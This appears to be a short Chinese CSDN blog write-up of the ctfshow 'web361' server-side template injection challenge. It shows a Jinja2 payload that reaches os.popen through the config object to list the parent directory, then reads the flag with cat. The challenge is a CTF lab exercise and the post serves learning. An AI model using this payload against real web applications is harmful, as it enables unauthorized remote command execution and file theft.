

# ctf show-web入门 SSTI篇部分题解_z.volcano的博客-CSDN博客_ctfshow web入门ssti

> 来源：[https://blog.csdn.net/weixin_45696568/article/details/113625650](https://blog.csdn.net/weixin_45696568/article/details/113625650)

# SSTI

ssti模板注入基本原理推荐看[这篇文章](https://xz.aliyun.com/t/3679)，这个师傅写的很详细，小白也很容易看懂。

## web361

这个hackbar挺好用的，有现成模板，当前目录只有一个app.py，我们看一下上级目录
![在这里插入图片描述](img/3c307c0cd65b12b9a51bbe1ee691e8c8.png)

```
?name={{ config.__class__.__init__.__globals__['os'].popen('ls ../').read() }} 
```

![在这里插入图片描述](img/6e28f61514feebfba33930462a7bef35.png)

看到了flag，`cat ../flag`即可
